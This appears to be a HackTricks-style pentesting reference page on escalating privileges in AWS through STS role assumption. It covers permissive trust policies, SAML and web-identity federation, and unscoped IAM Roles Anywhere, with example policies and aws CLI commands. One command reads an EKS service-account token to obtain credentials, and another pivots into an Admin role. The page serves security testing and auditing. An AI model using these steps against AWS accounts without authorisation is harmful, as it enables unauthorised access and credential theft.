 # AWS - STS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## STS

### `sts:AssumeRole`

Every role is created with a **role trust policy**, this policy indicates **who can assume the created role**. If a role from the **same account** says that an account can assume it, it means that the account will be able to access the role (and potentially **privesc**).

For example, the following role trust policy indicates that anyone can assume it, therefore **any user will be able to privesc** to the permissions associated with that role.

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```

You can impersonate a role running:

```bash
aws sts assume-role --role-arn $ROLE_ARN --role-session-name sessionname
```

**Potential Impact:** Privesc to the role.

> [!CAUTION]
> Note that in this case the permission `sts:AssumeRole` needs to be **indicated in the role to abuse** and not in a policy belonging to the attacker.\
> With one exception, in order to **assume a role from a different account** the attacker account **also needs** to have the **`sts:AssumeRole`** over the role.


### `sts:AssumeRoleWithSAML`

A trust policy with this role grants **users authenticated via SAML access to impersonate the role.**

An example of a trust policy with this permission is:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "OneLogin",
      "Effect": "Allow",
      "Principal": {
        "Federated": "arn:aws:iam::290594632123:saml-provider/OneLogin"
      },
      "Action": "sts:AssumeRoleWithSAML",
      "Condition": {
        "StringEquals": {
          "SAML:aud": "https://signin.aws.amazon.com/saml"
        }
      }
    }
  ]
}
```

To generate credentials to impersonate the role in general you could use something like:

```bash
aws sts  assume-role-with-saml --role-arn <value> --principal-arn <value>
```

But **providers** might have their **own tools** to make this easier, like [onelogin-aws-assume-role](https://github.com/onelogin/onelogin-python-aws-assume-role):

```bash
onelogin-aws-assume-role --onelogin-subdomain mettle --onelogin-app-id 283740 --aws-region eu-west-1 -z 3600
```

**Potential Impact:** Privesc to the role.

### `sts:AssumeRoleWithWebIdentity`

This permission grants permission to obtain a set of temporary security credentials for **users who have been authenticated in a mobile, web application, EKS...** with a web identity provider. [Learn more here.](https://docs.aws.amazon.com/STS/latest/APIReference/API_AssumeRoleWithWebIdentity.html)

For example, if an **EKS service account** should be able to **impersonate an IAM role**, it will have a token in **`/var/run/secrets/eks.amazonaws.com/serviceaccount/token`** and can **assume the role and get credentials** doing something like:

```bash
aws sts assume-role-with-web-identity --role-arn arn:aws:iam::123456789098:role/<role_name> --role-session-name something --web-identity-token file:///var/run/secrets/eks.amazonaws.com/serviceaccount/token
# The role name can be found in the metadata of the configuration of the pod
```

### Federation Abuse

{{#ref}}
../aws-basic-information/aws-federation-abuse.md
{{#endref}}

### IAM Roles Anywhere Privesc

AWS IAM RolesAnywhere allows workloads outside AWS to assume IAM roles using X.509 certificates. But when trust policies aren't properly scoped, they can be abused for privilege escalation.

This policy lacks restrictions on which trust anchor or certificate attributes are allowed. As a result, any certificate tied to any trust anchor in the account can be used to assume this role.

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Service": "rolesanywhere.amazonaws.com"
      },
      "Action": [
        "sts:AssumeRole",
        "sts:SetSourceIdentity",
        "sts:TagSession"
      ]
    }
  ]
}

```

To privesc, the `aws_signing_helper` is required from https://docs.aws.amazon.com/rolesanywhere/latest/userguide/credential-helper.html

Then using a valid certificate the attacker can pivot into the higher privilege role 

```bash
aws_signing_helper credential-process \
  --certificate readonly.pem \
  --private-key readonly.key \
  --trust-anchor-arn arn:aws:rolesanywhere:us-east-1:123456789012:trust-anchor/ta-id \
  --profile-arn arn:aws:rolesanywhere:us-east-1:123456789012:profile/default \
  --role-arn arn:aws:iam::123456789012:role/Admin
```

The trust anchor validates that the client certificate `readonly.pem` comes from its authorized CA, when the trust anchor was created the CA’s public certificate was included (and now used to validate `readonly.pem`). Inside `readonly.pem` is the public key, which AWS uses to verify that the signature was made with its corresponding private key `readonly.key`.

The certificate also proves identity and provides attributes (such as CN or OU) that the `default` profile transforms into tags, which the role’s trust policy can use to decide whether to authorize access, if there are no conditions in the trust policy, those tags are ignored and anyone with a valid certificate is allowed through.

For this attack to be possible, both the trust anchor and the default profile must be active.

### References

- [https://www.ruse.tech/blogs/aws-roles-anywhere-privilege-escalation](https://www.ruse.tech/blogs/aws-roles-anywhere-privilege-escalation)

{{#include ../../../banners/hacktricks-training.md}}



